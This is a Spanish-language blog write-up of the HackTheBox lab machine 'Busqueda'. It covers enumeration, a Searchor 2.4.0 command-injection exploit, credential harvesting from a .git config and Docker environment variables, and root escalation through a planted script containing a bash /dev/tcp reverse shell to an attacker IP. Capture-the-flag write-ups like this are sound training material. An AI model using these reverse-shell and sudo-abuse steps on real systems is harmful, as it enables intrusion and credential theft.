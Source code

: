 
---
title: "Busqueda"
summary: "Busqueda Machine From HackTheBox"
categories: ["Post","Blog",]
tags: ["post","lorem","ipsum"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2024-12-18

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Linux |
| **Dificultad** | Fácil |
| **IP** | 10.10.11.208 |
- - -
## Enumeración

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

ESTADO DEL PUERTO VERSIÓN DEL SERVICIO
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocolo 2.0)
| ssh-hostkey:
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open http Apache httpd 2.4.52
|_http-title: No se siguió la redirección a http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Información del servicio: Host: searcher.htb; SO: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos ver que la web en el puerto 80 redirige a **searcher.htb**. Vamos a agregarlo a `/etc/hosts`.

Tan pronto como aterrizamos en la página, vemos lo siguiente:
![Busqueda1](img/Busqueda/busqueda1.png)

Un vistazo rápido muestra la versión de la aplicación que se está ejecutando detrás de este sitio web, que es **Searchor 2.4.0**. Si buscamos vulnerabilidades, encontramos el siguiente [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Explotación
Ejecutamos el exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

Colocamos un listener `netcat` para recibir la conexión:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

Ingresamos exitosamente a la máquina como usuario **svc** .
```bash
svc@busqueda:~$ cat usuario.txt
cat usuario.txt
75a17...8bd3e
```
- - -
## Escalada de privilegios
Al revisar los archivos del sistema, encontramos un `.git` con credenciales en la carpeta **app**.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
repositoryformatversion = 0
...
[remote "origin"]
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
remote = origin
merge = refs/heads/main
```

El usuario es **cody** y la contraseña es **jh1usoih2bkjaspwe92** para una aplicación en un subdominio llamado **gitea**. Vamos a añadirlo al `/etc/hosts` y echarle un vistazo.

![Busqueda2](img/Busqueda/busqueda2.png)

Aquí dentro no encontramos nada interesante, salvo que podemos ver un usuario llamado **administrador**. Aunque podemos intentar usar SSH con el usuario **svc** y la contraseña de **cody**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208
Contraseña de svc@10.10.11.208:
Bienvenido a Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

* Documentación: https://help.ubuntu.com
* Administración: https://landscape.canonical.com
* Soporte: https://ubuntu.com/advantage

...

Último inicio de sesión: mar abr 4 17:02:09 2023 desde 10.10.14.19
```

Comprobemos los privilegios de sudo que tiene este usuario:

```bash
svc@busqueda:/opt/scripts$ sudo -l

El usuario svc puede ejecutar los siguientes comandos en busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Este usuario tiene derecho a ejecutar ese script dentro de **/opr/scripts**.

Si lo ejecutamos, podemos ver las siguientes opciones:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Uso: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

docker-ps : Listar los contenedores de Docker en ejecución
docker-inspect : Inspeccionar un determinado contenedor de Docker
full-checkup : Ejecutar una comprobación completa del sistema
```

Después de investigar un poco, descubrimos que la opción `docker-inspect` se puede usar para recuperar información de los contenedores de Docker que se están ejecutando en la máquina, antes vista con la opción `docker-ps`.

```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
"USER_UID=115",
"USER_GID=121",
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
"USER=git",
"GITEA_CUSTOM=/data/gitea"
],
```

Parece que encontramos más credenciales para la aplicación **gitea**. Intentemos iniciar sesión como **administrador**
con estas credenciales.

![Busqueda3](img/Busqueda/busqueda3.png)

¡Genial! Ahora podemos comprobar el contenido de los **scripts** en la carpeta **/opt**.

Al leer el script `system-checkup.py` notamos que el script `full-checkup.sh` es referenciado como si estuviera en la misma carpeta:

```
...
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
...
```

Podemos abusar de esto creando nuestro propio script malicioso y referenciarlo, ya que lo estamos ejecutando con privilegios sudo:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Ten en cuenta que debes otorgar privilegios de ejecución al script para que se ejecute, ya que este fue un error mío que me llevó bastante tiempo descubrir.

Ahora, configuramos un listener `netcat` y ejecutamos el script malicioso:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

En el `netcat` recibimos el shell root:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

¡Genial! Hemos rooteado la máquina.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```